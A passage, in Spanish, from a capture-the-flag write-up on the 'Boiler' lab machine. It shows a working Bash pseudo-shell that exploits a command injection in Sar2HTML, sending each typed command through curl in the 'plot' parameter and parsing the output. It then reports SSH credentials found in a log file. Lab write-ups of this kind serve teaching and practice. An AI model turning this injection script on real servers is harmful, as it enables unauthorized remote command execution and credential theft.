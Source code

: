 ![RCE a través del servicio Sar2HTML](/assets/img/THM/BoilerCTF/rce.png)

Como se observa en la imagen, el comando se ejecuta y se muestra la salida en las opciones de uno de los desplegables. Para hacer más visible y rápida esta ejecución de comandos, decido crear un script en Bash que simule una shell realizando peticiones al servidor web mediante `cURL`:

```bash
#!/bin/bash

#Check if the IP address of the victim is passed
if [ $# -eq 1 ]; then
 while true; do

  # Get the command
  echo -n "$ "; read -r CMD

  #URLEncode the command requested
  CMD=$(echo $CMD | tr ' ' '+')

  #Send a petition to the webserver with the command requested and format the output
  curl -s "http://$1/joomla/_test/index.php?plot=;$CMD" | grep -oP "<option value=(.*?)>" | tail -n +5 | head -n -2 | sed 's/option value=//' | tr -d '<>'

 done
else

 echo -e "\n[!] USAGE: $0 <victim_ip_address>"

fi
```

Listando el directorio actual descubro un fichero de log que, al abrirlo, presenta las credenciales del servicio SSH de un usuario: "basterd".
